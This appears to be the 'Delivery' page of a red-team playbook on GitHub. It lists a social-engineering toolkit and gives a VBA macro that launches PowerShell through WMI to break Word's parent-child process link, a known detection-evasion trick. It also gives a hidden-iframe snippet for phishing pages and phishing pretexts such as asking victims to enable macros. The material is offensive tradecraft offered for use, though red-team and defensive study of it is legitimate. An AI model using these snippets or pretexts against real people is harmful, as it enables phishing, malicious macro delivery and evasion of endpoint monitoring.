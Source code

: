 # 3 Delivery

## Table of Contents

- [Tooling](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#tooling)
- [Breack Microsoft Word Parent-Child Relationship](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#Break-Microsoft-Word-Parent-Child-Relationship)
- [Embedding hidden iFrame in Phishing Page](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#Embedding-hidden-iFrame-in-Phishing-Page)
- [Phishing Scenarios](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/3-Delivery/3-Delivery.md#Phishing-Scenarios)

## Tooling

| Name | Description | URL |
| --- | --- | --- |
| The Social-Engineer Toolkit (SET) | The Social-Engineer Toolkit (SET) repository from TrustedSec | https://github.com/trustedsec/social-engineer-toolkit |

## Break Microsoft Word Parent-Child Releationship

```vb
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```

## Embedding hidden iFrame in Phishing Page

```HTML
<iframe src="<URL>" width="0" height="0" frameborder="0" tabindex="-1" title="empty" style=visibility:hidden;display:none"> </iframe>
```

## Phishing Scenarios

- `Bitwarden send link` abuse
- `Broken image` - please click to reload
- `GDPR Macro` - please enable macro to see the document content

### Previous

- [2 Weaponization](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2-Weaponization.md)
- [2.1 Initial Access](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/2-Weaponization/2.1-Initial-Access.md)

### Next

- [4 Exploitation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4-Exploitation.md)
- [4.1 Defense Evasion](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.1-Defense-Evasion.md)
- [4.2 Credential Dumping](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.2-Credential-Dumping.md)
- [4.3 Privilege Escalation](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.3-Privilege-Escalation.md)
- [4.4 Lateral Movement](https://github.com/0xsyr0/Red-Team-Playbooks/blob/master/4-Exploitation/4.4-Lateral-Movement.md)
